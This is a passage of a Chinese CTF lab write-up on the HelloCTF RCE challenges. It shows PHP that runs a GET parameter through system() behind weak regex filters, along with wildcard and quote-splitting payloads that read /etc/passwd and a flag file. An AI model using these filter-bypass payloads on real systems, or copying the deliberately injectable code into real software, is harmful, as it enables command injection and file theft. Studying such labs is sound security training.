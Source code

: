 ```php

通过组合上述技巧，我们可以用于绕过CTF中一些简单的过滤：

system("c''at /e't'c/pass?d");
system("/???/?at /e't'c/pass?d");
system("/???/?at /e't'c/*ss*");
...


*/

function hello_shell($cmd){
    if(preg_match("/flag/", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>

```

```php
/?cmd=ls /
/?cmd=cat /fla?
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737289103357-41b2076c-374a-44b8-aef1-344dbf232ae3.png)![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737289138644-593bfeef-abee-4cd7-b5a1-0efc55442384.png)

## Level 6  通配符匹配绕过  
```php
 <?php 
/*
# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-08-11 14:34
# @Repo:   github.com/ProbiusOfficial/RCE-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - RCE靶场 : 挑战关 --- 

刚才，学了什么来着！？

*/

function hello_shell($cmd){
    if(preg_match("/[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]/", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


```